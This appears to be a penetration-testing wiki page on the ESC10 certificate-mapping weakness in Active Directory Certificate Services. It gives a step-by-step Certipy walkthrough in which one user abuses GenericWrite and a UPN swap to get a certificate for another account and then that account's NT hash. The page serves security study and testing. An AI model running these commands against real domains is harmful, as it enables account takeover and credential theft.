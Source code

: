 This ESC refers to a weak configuration of the registry keys:

#### Case 1

 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== Unix-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows
